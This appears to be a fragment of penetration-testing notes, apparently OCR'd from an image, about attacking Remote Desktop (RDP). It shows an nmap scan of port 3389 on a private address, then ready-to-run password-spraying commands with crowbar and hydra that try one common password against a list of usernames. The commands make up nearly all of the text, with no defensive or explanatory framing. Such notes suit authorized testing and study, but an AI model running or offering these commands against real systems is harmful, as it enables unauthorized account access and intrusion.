nmap scan
```shell-session
nmap -Pn -p3389 192.168.2.143
```


Password spraying tools
https://github.com/galkan/crowbar
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

